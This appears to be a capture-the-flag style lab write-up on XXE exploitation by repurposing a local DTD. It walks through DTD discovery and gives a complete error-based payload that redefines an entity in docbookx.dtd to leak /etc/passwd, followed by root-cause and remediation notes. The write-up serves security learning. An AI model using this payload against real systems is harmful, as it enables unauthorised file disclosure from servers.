


# Exploiting XXE to retrieve data by repurposing a local DTD
# Descriptiom
This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, trigger an error message containing the contents of the /etc/passwd file. You'll need to reference an existing DTD file on the server and redefine an entity from it. 

## Steps
I access the lab and focus on the name of this lab. This lab mentions retrieve data by repurposing a local DTD. So I have to determine the DTD file exist in this system.
First, I declared a DOCTYPE with an external entity pointing to a file that actually exist

`<!DOCTYPE xxe [<!ENTITY % file SYSTEM "file:///etc/passwd"> %file;]>`


And i got XML parsing error message in response.

Next, I tried with a non-exist file

`<DOCTYPE xxe [<!ENTITY % file SYSTEM "file:///hehe" %file;]>`

Focus on the response that give me the information about the file are not exist in the system.

With this information I can bruteforce the files with a list of known/available DTD's to find which DTD's exist.
The list of DTD's I use for this lab: https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt

Send the request to Intruder and mark `FILE` to bruteforce


The result show that there are 5 DTD's exist that I can find. From that, I will research the entity that are defined in each DTD's
But to get more quickly, I will resolve base on the information from the lab. There is `ISOamso` are defined that I can use to exploit.

## Payload Explanation

```xml
<!DOCTYPE exploit [
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
<!ENTITY % internal_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%internal_dtd;
]>
```

### Breaking down each part

1. **Redefining `ISOamso`**

```xml
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
```

This declares a parameter entity named `ISOamso` — the same name used inside `docbookx.dtd` — whose value is a string containing an entire nested
parameter entity chain:
- `&#x25;` is the hex-encoded form of `%`, and `&#x26;` / `&#x27;` are the hex-encoded forms of `&` and `'`. These are used instead of the raw characters because `ISOamso`'s value is itself a quoted string (delimited by `'`); writing `%` or `&` directly inside it would be interpreted immediately rather than preserved as literal text until the entity is later expanded.
- `% file` is defined to contain the contents of `/etc/passwd`.
- `% eval` dynamically declares a new parameter entity, `error`, whose `SYSTEM` identifier is a nonexistent path (`file:///nonexistent/`) concatenated with the value of `%file;` — i.e. the contents of `/etc/passwd`.
- `%eval;` and `%error;` are then invoked in sequence, triggering the parser to attempt opening that nonexistent path.

   Because this entire chain is defined as the value of `ISOamso` — which XML considers an override of an externally-declared entity — the nested parameter entity restriction described above does not apply here, even though this whole block is technically written inside the internal `DOCTYPE` subset.

2. **Declaring and invoking the local DTD**

```xml
<!ENTITY % internal_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%internal_dtd;
```

This loads the real `docbookx.dtd` file from the server's filesystem. Per XML's "first declaration wins" rule, since `ISOamso` was already declared above (with my malicious value) before `%internal_dtd;` is invoked, the original `ISOamso` declaration inside `docbookx.dtd` is ignored when the parser reaches it — my version is used instead.

Internally, `docbookx.dtd` references `%ISOamso;` to pull in its (normally harmless) math symbol entities. Because my redefinition is used instead, this reference actually triggers my nested entity chain, cascading through `%eval;` and `%error;`.

### Result

The parser attempts to resolve the nonexistent path `file:///nonexistent/<contents of /etc/passwd>`, fails, and throws a `FileNotFoundException`. Since the application returns raw XML parser error messages in its response, the full contents of `/etc/passwd` appear directly in the error message — solving the lab.

## Root Cause

- The application's XML parser processes the `DOCTYPE` declaration in user-supplied XML input and resolves external entities referencing the local
  filesystem, without restriction.
- Even though direct external entity resolution and out-of-band interactions are blocked, the parser still permits loading DTD files that exist locally on the server filesystem via `SYSTEM "file://..."`.
- This, combined with the XML specification's allowance for nested parameter entities when redefining an externally-declared entity, enables error-based data exfiltration even under otherwise restrictive conditions.

## Remediation

- Disable DTD processing (`DOCTYPE`) entirely in the XML parser configuration if external/custom DTDs are not required by the application's use case — most modern XML libraries provide a straightforward flag to disable this (e.g. `setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` in Java).
- If DTDs must be supported, disable resolution of external entities and external DTD subsets specifically (disable both general and parameter entity expansion from external sources).
- Avoid passing raw, unvalidated XML input directly to a parser configured with default (insecure) settings — use an allowlist-based or schema-validated approach wherever possible.
- Apply least privilege to the process running the XML parser so that, even if file disclosure occurs, the impact is limited to files the process account can actually access.
